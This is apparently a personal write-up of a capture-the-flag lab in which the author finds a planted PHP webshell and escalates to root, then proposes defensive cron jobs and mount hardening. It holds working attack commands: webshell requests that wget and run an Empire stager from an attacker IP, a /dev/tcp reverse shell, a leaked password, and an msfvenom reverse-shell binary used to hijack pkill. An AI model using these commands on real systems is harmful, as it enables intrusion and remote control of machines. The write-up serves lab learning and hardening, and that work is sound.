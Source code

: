 # Hacker-vs-Hacker Helped-Through

Name: Hacker-vs-Hacker
Date:  28/1/23
Difficulty:  Easy
Goals:  
- Research Countermeasures
- Improve the counter measures
- Invent or research booby trapping 
- Get DFIR theory-crafting 
Learnt:
- Practiced Empire
- killing pty /dev/pts prevents some privilege escalation
Beyond Root:
- Booby traps for battlegrounds
- Better \*-shells for persistence - not the shell code just location, naming, parametres

![1080](thememes.png)

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

## Recon


The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

THM machine and the comments on the webpages
![](comments.png)

## Exploit

Testing the file upload
![](testingthefileupload.png)
My guess is that the "hacker" is calling out poorly coded php 

cvs directory listing is disabled.
![](possibledirs.png)

Upload test.pdf
![](hmm.png)
Confirmed suspicions, Al mentions that [Conficker](https://en.wikipedia.org/wiki/Conficker) a computer worm patch the vulnerability after getting RCE to prevent other from exploiting the box after it gained access.

The most interesting part is actually the idea that you have to change you methodology for looking for a specifics that a related to hacking. So fuzzing for the webshell is actually considering how he bypassed the original. And although not staeted on stream this adjustment is:
- Hacker has exploited the file upload form, pictured above.
- This code only checks for if there is has a .pdf in the string with [strpos](https://www.php.net/manual/en/function.strpos.php)
-  So with it being an apache web server the deduction need to be made is that it is exploited either with a file that file.pdf.`$php` or file.`$php`.pdf with `$php` potential being various varients

![](ffufforthewin.png)
```bash
ffuf -u http://10.10.72.190/cvs/FUZZ.FUZZ1.FUZZ2 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ2 -w webshell-names.txt:FUZZ
```


The capabilities of the attacker can be accessed by the naming of the both the file and the parametre used for code execution, from a pure DFIR perspective this not complex, but also not complex enough to be APT-level. The reason this rather benign points is here is that there are ways to improve this that would indicate the motive:
- If it was a randomized file name it would be harder to find for other APTs
- If the parametre is a randomized string, even if the file was found or leaked out some how at another part of the attack chain traces it code excution for other would be prevented  - as cmd is the parametre
- If it was false flagging this is a fake attack chain laid to for whatever reason present because of something related to overall objectives such that it is required to spend time to false flag
	- Potentially being caught to thow of purple team
	- Misleading purple into not considering more complex forms of persistence


I wanted to go a bit more try hard and use Powershell-Empire as my brain was clouded by covid 
```bash
http://10.10.46.245/cvs/shell.pdf.php?cmd=wget%20http://10.11.3.193/empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=chmod%20+x%20empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=bash%20empire.sh
```

![](hellothere.png)


## Foothold

For Two is one and one is none:
```powershell
(Empire: 1B17TKZC) > shell "bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1' &"
```

![](oneplusone.png)
Counter measure it kills any `python -c 'import pty;pty.spawn("/bin/bash")'` but allows for execution from /dev/shm.
![](makeitnotsothatdevshmisexec.png)

Quick look in the home directory of the lachan user
![](lachanuser.png)

and in his bash_history
![](interstinghistory.png)

```bash
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123"
```

` lachlan : thisistheway123 `, but Al did not check the cron

![](interestingpersistence.png)

## PrivEsc

We cannot use sudo as we require a tty. But also a very important detail I skimmed over  as I started researching sudo. Al wants to go fast, but second guessing that as the dirty hack solution [krobe got me covered](https://medium.com/@krobesec/hacker-vs-hacker-tryhackme-writeup-1518f88a2c27). The only binary that is hijackable in the path is `pkill`

- Go back to noting each finding never skimp on notes. it is in the picture above.

Just hijack with a msfvenom shell called pkill in the /home/lachlan/bin
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -f ELF > pkill
```

Then we can just use `scp`
```bash
scp 'pkill' lachlan@10.10.46.245:/home/lachlan/bin/pkill
```
Then the quick chmod o'clock with +x
```bash
thisistheway123
chmod +x bin/pkill
```

![](root.png)

## Beyond Root

I really want to make a couple of machines with this kind of path with these kinds of obstacles.

```bash
apt install fail2ban
```

[Change /dev/shm to not allow execution](https://secscan.acron.pl/centos7/1/1/17)
```bash
mount -o remount,noexec,rw,nosuid,relatime /dev/shm
```

Remove the webshells and its process Holo or a HTB ctf did this but did not kill the process.
```bash
* * * * * * root /bin/sleep 10 && for f in `/bin/ls /var/www/html | grep -v .html`; do p=$(ps -aux | grep $f | awk '{print $2}') && kill $p && rm /var/www/html/$f; done
```

Kill ptys
```bash
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill -9 -t pts/$f; done
```